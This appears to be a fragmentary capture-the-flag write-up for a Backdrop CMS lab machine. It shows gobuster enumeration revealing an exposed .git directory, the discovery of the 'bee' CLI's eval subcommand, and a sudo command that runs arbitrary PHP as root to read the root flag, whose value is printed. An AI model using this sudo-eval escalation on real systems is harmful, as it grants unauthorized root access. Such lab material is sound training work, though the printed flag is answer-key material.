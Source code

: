*answer*
after a short google search i found that bee is cli utility for using backdrop CMS.
The root directory of the website contaions settings.php file

lets find this file and figure out the root directory
```
stpes:
1. find / | grep settings.php

found inside --> `/var/www/html`

```

```
*question - task 11*
What is the bee subcommand to run arbitrary PHP code?

*answer*
eval
```
stpes:
1. run the command below inside root directory: `/var/www/html` 

    sudo /usr/local/bin/bee --root
2. check out all avalibale commands with:

    sudo /usr/local/bin/bee help -->
    ```
    eval
    ev, php-eval
    Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
    ```





## ROOT FLAG

1. after gaining options to run commands as root simply enter the root directory to find the root.txt flag

`sudo /usr/local/bin/bee eval "system('cd /root/ ;cat root.txt');"
` 
`FLAG: e346077852350e09fd1ce91c8509f6a3`



```
*output* (of gobuster command)
/.git                 (Status: 301) [Size: 313] [--> http://10.129.186.26/.git/]
/.git/HEAD            (Status: 200) [Size: 23]
/.git/config          (Status: 200) [Size: 92]
/.git/logs/           (Status: 200) [Size: 1132]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.git/index           (Status: 200) [Size: 344667]
/core                 (Status: 301) [Size: 313] [--> http://10.129.186.26/core/]
/files                (Status: 301) [Size: 314] [--> http://10.129.186.26/files/]
/index.php            (Status: 200) [Size: 13368]
/layouts              (Status: 301) [Size: 316] [--> http://10.129.186.26/layouts/]
/modules              (Status: 301) [Size: 316] [--> http://10.129.186.26/modules/]
/robots.txt           (Status: 200) [Size: 1198]
/server-status        (Status: 403) [Size: 278]
/sites                (Status: 301) [Size: 314] [--> http://10.129.186.26/sites/]
/themes               (Status: 301) [Size: 315] [--> http://10.129.186.26/themes/]
```
```
*question*
```